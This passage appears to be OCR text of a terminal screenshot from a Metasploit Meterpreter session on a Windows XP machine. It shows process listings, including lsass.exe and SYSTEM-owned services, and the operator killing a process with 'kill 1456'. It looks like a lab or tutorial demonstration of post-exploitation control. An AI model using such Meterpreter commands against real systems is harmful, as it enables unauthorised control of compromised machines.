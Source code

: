     652   596   lsass.exe         x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\lsass.ex
                                                                            e
    824   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    888   640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    984   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\svchost.
                                                                            exe
    1068  640   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\System32\alg.exe
    1080  640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    1184  640   svchost.exe       x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\system32\svchost.
                                                                            exe
    1344  640   spoolsv.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\spoolsv.
                                                                            exe
    1456  984   mspaint.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\mspaint.
                                                                            exe
    1504  640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    1548  1604  cmd.exe           x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\cmd.exe
    1560  984   wscntfy.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wscntfy.
                                                                            exe
    1604  1528  explorer.exe      x86   0        WORKGROU-8E8989\user         C:\WINDOWS\Explorer.EXE

    meterpreter > kill 1456
    Killing: 1456
    meterpreter > ps

    Process List
    ============

    PID   PPID  Name              Arch  Session  User                         Path
    ---   ----  ----              ----  -------  ----                         ----
    0     0     [System Process]
    4     0     System            x86   0        NT AUTHORITY\SYSTEM
    176   984   wuauclt.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wuauclt.
                                                                            exe
    508   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM          \SystemRoot\System32\smss.ex
                                                                            e
    572   508   csrss.exe         x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\csrs
                                                                            s.exe
    596   508   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\winl
                                                                            ogon.exe
    640   596   services.exe      x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\services
                                                                            .exe
    652   596   lsass.exe         x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\lsass.ex
                                                                            e